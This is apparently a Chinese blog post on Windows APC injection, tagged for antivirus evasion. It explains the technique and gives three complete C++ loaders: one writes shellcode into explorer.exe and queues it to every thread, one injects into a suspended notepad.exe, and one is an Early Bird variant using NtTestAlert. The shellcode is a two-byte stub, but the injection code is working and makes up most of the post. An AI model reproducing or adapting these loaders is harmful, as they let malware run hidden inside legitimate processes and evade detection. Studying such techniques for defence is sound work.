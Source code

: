 ```yaml
---
layout: post
title: APC Inject
categories: Inject
description: Inject 之 APC
keywords: Windows，注入，免杀
---
```


APC注入技术

# APC Inject

## 原理

APC是一个简称，即“异步过程调用”。APC 注入的原理是利用当线程被唤醒时，APC 中的注册函数会被执行，并以此去执行 DLL 的加载代码，进而完成 DLL 注入的目的。在线程下一次被调度的时候，就会执行 APC 函数，APC 有两种形式，由系统产生的 APC 称为内核模式 APC，由应用程序产生的 APC 被称为用户模式 APC。

## 实现流程

1. 当某个线程执行到 Sleep 或 WaitForSingleObject 时，系统就会产生一个软中断。
2. 当线程再次被唤醒时，此线程会首先执行 APC 队列中的被注册的函数。
3. 利用 QueueUserAPC 可以在软中断时向线程的 APC 队列插入一个函数指针。

## 缺点

当用户模式 APC 队列时，除非线程处于可警报状态，否则不会定向线程调用 APC 函数。

线程处于可警报状态后，线程将按先进先出 （FIFO） 顺序处理所有挂起的 APC，等待操作将返回WAIT_IO_COMPLETION。

线程通过使用 SleepEx 函数、SignalObjectAndWait 函数、WaitForSingleObjectEx 函数、WaitForMultipleObjectsEx 函数或 MsgWaitForMultipleObjectsEx 函数进入可报警状态。

[QueueUserAPC function](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)

## 完整代码

### 1.OpenProcess 注入 explorer

```c++
#include "pch.h"
#include <Windows.h>
#include <TlHelp32.h>
#include <vector>

int main()
{
	unsigned char shellcode[] =
			"\xfc\x48";

	HANDLE	hProcessHandle;
	HANDLE	hThreadHandle;
	HANDLE	hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS | TH32CS_SNAPTHREAD, 0);
	PROCESSENTRY32	processEntry	= { sizeof(PROCESSENTRY32) };
	THREADENTRY32	threadEntry		= { sizeof(THREADENTRY32) };
	std::vector<DWORD> vThreadIds;
	SIZE_T ShellcodeSize = sizeof(shellcode);
	
	// 查找 explorer.exe 进程 ID
	if (Process32First(hSnapshot, &processEntry)) {
		while (_wcsicmp(processEntry.szExeFile, L"explorer.exe") != 0) {
			Process32Next(hSnapshot, &processEntry);
		}
	}

	// 获取目标进程句柄
	hProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, processEntry.th32ProcessID);
	// 在 explorer.exe 进程内存空间中分配内存
	LPVOID shellAddress = VirtualAllocEx(hProcessHandle, NULL, ShellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
	// 调用 WriteProcessMemory 写入分配的内存中的 Shllcode
	WriteProcessMemory(hProcessHandle, shellAddress, shellcode, ShellcodeSize, NULL);

	// 查找 explorer.exe 所有线程
	if (Thread32First(hSnapshot, &threadEntry)) {
		do {
			if (threadEntry.th32OwnerProcessID == processEntry.th32ProcessID) {
				vThreadIds.push_back(threadEntry.th32ThreadID);
			}
		} while (Thread32Next(hSnapshot, &threadEntry));
	}

	for (DWORD dThreadId : vThreadIds) {
		// 根据线程 Tid，打开线程句柄
		hThreadHandle = OpenThread(THREAD_ALL_ACCESS, TRUE, dThreadId);
		// 给 APC 队列中插入回调函数
		// 在调用 QueueUserAPC 函数时指定此地址。PAPCFUNC 类型定义指向此回调函数的指针。
		QueueUserAPC((PAPCFUNC)apcRoutine, hThreadHandle, NULL);
		Sleep(1000 * 3);
	}

	return 0;
}
```

### 2.CreateProcess 注入 notepad

```
#include <Windows.h>
int main()
{
	unsigned char shellcode[] =
		"\xfc\x48";

	LPCSTR lpApplication = "C:\\Windows\\System32\\notepad.exe";
	SIZE_T ShellcodeSize = sizeof(shellcode);
	STARTUPINFOA si = { 0 };
	PROCESS_INFORMATION pi = { 0 };
	// 以挂起状态创建 notepad.exe
	CreateProcessA(lpApplication, NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
	HANDLE hProcess = pi.hProcess;
	HANDLE hThread = pi.hThread;

	// 在 notepad.exe 进程内存空间中分配内存
	LPVOID shellAddress = VirtualAllocEx(hProcess, NULL, ShellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	PTHREAD_START_ROUTINE ptApcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
	// 调用 WriteProcessMemory 写入分配的内存中的 Shllcode
	WriteProcessMemory(hProcess, shellAddress, shellcode, ShellcodeSize, NULL);

	// 给 APC 队列中插入回调函数
	// 在调用 QueueUserAPC 函数时指定此地址。PAPCFUNC 类型定义指向此回调函数的指针。
	QueueUserAPC((PAPCFUNC)ptApcRoutine, hThread, NULL);

	// 恢复线程
	ResumeThread(hThread);

	return 0;
}
```



# Early Bird APC Inject

## 原理

由于线程初始化时会调用 ntdll 未导出函数 NtTestAlert，NtTestAlert 是一个检查当前线程的 APC 队列的函数，如果有任何队列作业，它会清空队列。当线程启动时，NtTestAlert 会首先被调用。因此，如果在线程的开始状态下对 APC 进行操作，调用 NtTestAlert 函数就可以确保执行我们的 shellcode。

## 实现流程

1. 在当前进程中分配一块内存空间
2. 往申请的空间内写入 shellcode
3. 将 APC 插入到当前线程
4. 调用 NtTestAlert

```c++
#include <Windows.h>

#pragma comment(lib, "ntdll")
using myNtTestAlert = NTSTATUS(NTAPI*)();

int main()
{
	unsigned char shellcode[] =
		"\xfc\x48";

	myNtTestAlert testAlert = (myNtTestAlert)(GetProcAddress(GetModuleHandleA("ntdll"), "NtTestAlert"));
	SIZE_T ShellcodeSize = sizeof(shellcode);
	// 分配内存
	LPVOID shellAddress = VirtualAlloc(NULL, ShellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	// 调用 WriteProcessMemory 写入分配的内存中的 Shllcode
	WriteProcessMemory(GetCurrentProcess(), shellAddress, shellcode, ShellcodeSize, NULL);

	PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
	// 给 APC 队列中插入回调函数
	QueueUserAPC((PAPCFUNC)apcRoutine, GetCurrentThread(), NULL);
	// 调用 NtTestAlert 函数检查当前线程的 APC 队列，如果有任何队列作业，清空队列，执行 shellcode
	testAlert();

	return 0;
}
```

